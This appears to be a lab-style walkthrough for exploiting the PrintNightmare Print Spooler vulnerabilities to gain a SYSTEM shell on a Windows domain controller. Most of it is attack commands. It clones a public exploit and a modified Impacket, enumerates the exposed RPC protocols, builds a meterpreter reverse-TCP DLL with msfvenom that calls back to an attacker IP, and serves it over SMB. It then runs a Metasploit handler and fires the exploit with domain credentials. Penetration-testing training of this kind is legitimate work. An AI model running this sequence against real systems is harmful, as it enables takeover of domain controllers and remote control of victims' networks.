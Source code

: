 # PrintNightmare
`PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution.
Let's practice with one exploit that can allow us to gain a SYSTEM shell session on a Domain Controller running on a Windows Server 2019 host.
Before conducting this attack, we must retrieve the exploit we will use. In this case, we will be using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit. We can use Git to clone it to our attack host:
## Cloning the Exploit
``` shell
git clone https://github.com/cube0x0/CVE-2021-1675.git
```
We may need to uninstall the version of Impacket on our attack host and install cube0x0's .
## Install cube0x0's Version of Impacket
```shell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
## Enumerating for MS-RPRN to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.
``` shell
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
![image](https://github.com/user-attachments/assets/8665824e-4cd1-4d2c-9491-c08b70765227)

##crafting a DLL payload using `msfvenom`.
### Generating a DLL Payload
``` shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
host this payload in an SMB share we create on our attack host using `smbserver.py`.
```shell
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```
### Configuring & Starting MSF multi/handler
```shell
msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.16.5.225
LHOST => 172.16.5.225
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.5.225:8080
```
## Running the Exploit
``` shell
sudo python3 CVE-2021-1675.py Domain/User:Password@<DC-IP> '\\<Attacker-IP>\CompData\backupscript.dll'
```
Example
``` shell
sudo smbserver.py -smb2support CompData /home/Desktop/shared
```

